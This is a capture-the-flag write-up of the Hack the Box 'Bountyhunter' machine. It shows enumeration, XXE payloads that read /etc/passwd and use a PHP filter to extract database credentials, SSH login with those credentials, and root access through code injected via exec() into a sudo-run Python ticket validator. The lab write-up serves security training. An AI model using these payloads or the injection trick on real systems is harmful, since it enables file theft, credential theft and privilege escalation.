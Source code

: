 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
date = 2021-11-20T15:01:08Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/08/bounty.png"
slug = "hack-the-box-bountyhunter"
tags = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
title = "Hack the Box - Bountyhunter"

+++


Welcome! Today we are going to be doing the Hack the Box machine - Bountyhunter. This is listed as an easy Linux machine. Let's see what's in store!

As always, we start with a full `nmap` scan. Here are the resutlts:

```
Nmap scan report for 10.10.11.100
Host is up (0.049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open. Let's see what's being hosted on port 80. When we land on the page, we see a standard landing page. Digging around, we find a `log_submit.php` page. When we fill out the data required, we get the following response.

![](/images/2021/08/image-28.png)

Since this entry point will be a web entry point. We'll do everything going forward inside `Burpsuite`. We check the request and we see that it's coming accross as base64 encoded XML data.

![](/images/2021/08/image-27.png)

![](/images/2021/08/image-29.png)

Before we dig much futher into the web requests, we're going to start some basic enumeration and see what we can find. We know there is a endpoint called `tracker_diRbPr00f314.php`, this would lead us to believe we won't be able to enumerate it.

Command:
`gobuster dir -u http://10.10.11.100 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

This runs but doesn't find much of anything, shocker. Now, back to the original request. We know that `XXE` is a common attack vector, it's possible it's our foothold here.

The above is a malformed `base64` encoding. The `%3D` is URL encoding for `=`. Thus our full data set would be:

`PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjI8L2N3ZT4KCQk8Y3Zzcz4zPC9jdnNzPgoJCTxyZXdhcmQ+NDQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4=`

Giving us the following data being sent:

![](/images/2021/08/image-30.png)

Now we need to craft a PoC. You can read more on [XXE here](https://portswigger.net/web-security/xxe). We'll use the basic example they had listed for our PoC. Here is our payload:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

Once we have our payload created, we need to convert it to base64. Then we need to convert that base64 to URL encoding, since it will have some `+` signs in it. Overall our request looks like this:

```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
Content-Length: 305
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.11.100
Referer: http://10.10.11.100/log_submit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCSAgPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2bIF0%2bCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bMTwvdGl0bGU%2bCgkJPGN3ZT4yPC9jd2U%2bCgkJPGN2c3M%2bMzwvY3Zzcz4KCQk8cmV3YXJkPiZ4eGU7PC9yZXdhcmQ%2bCgkJPC9idWdyZXBvcnQ%2b
```

You can see we are only trying to view the `/etc/passwd` file as our PoC. We put it into `Burp` and see what we get.

![](/images/2021/08/XXE.gif)

It works! Perfect! Now we need to leverage this to obtain a foothold. Based on the above data, we know the user we are after - `development`. After attempting to read `id_rsa` and `db.php` files with the traditional method of `file:///`, we need to leverage something different. We need to use a `php filter` to obtain access to the files we want.

Syntax:
`"php://filter/convert.base64-encode/resource=/var/www/html/db.php"`

This will be the payload portion of our `XXE`. Here's our new `XXE` payload.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
              <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> 
                 ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

After we convert this to base64 and URL encode it, we get a valid response:

![](/images/2021/08/image-32.png)

A base64 encoded string. When we decode it, we get the following:

![](/images/2021/08/image-33.png)

A set of credentials! Finally! Now, we see a `testuser` account but I'm willing to bet, that these credentials will also work for the user `development` as well. Let's try to leverage them to `SSH`.

Sure enough, they do!

![](/images/2021/08/image-34.png)

We are able to log in and get the `user.txt` flag! Once we're in, we check `sudo -l` to see if there are any easy hints for priv esc.

![](/images/2021/08/image-36.png)

Sure enough, we have access to `ticketValidator.py`. When we view the file, we see that there are some basic requirements to the file we want to read.

* It must be a `.md` file
* It must start with # Skytrain Inc
* The second line must start with ## Ticket to
* The third line must be __Ticket Code __ 
* The fourth line can be the code we want to execute. It has to start with `**`. 
* The code checks for `% 7 == 4`. That number is 102 or 4.
* Then it will split the file along a `+` then run the code AFTER that split.  

So we'll create a file called `rootme.md` and add our first three lines.

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
```

Now we can give it our malicious code. We can drop right to a r[oot shell via python](https://gtfobins.github.io/gtfobins/python/). Remember, we still need to use the exec() function in order to get execution.

Here's our final code:

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
**102+6969 and exec("import os;os.system('cat /root/root.txt')")
```

Then we run our script.

Command:
`sudo python3.8 /opt/skytrain_inc/ticketValidator.py`

![](/images/2021/08/bountyroot.gif)

There we have it, the `root.txt` flag!



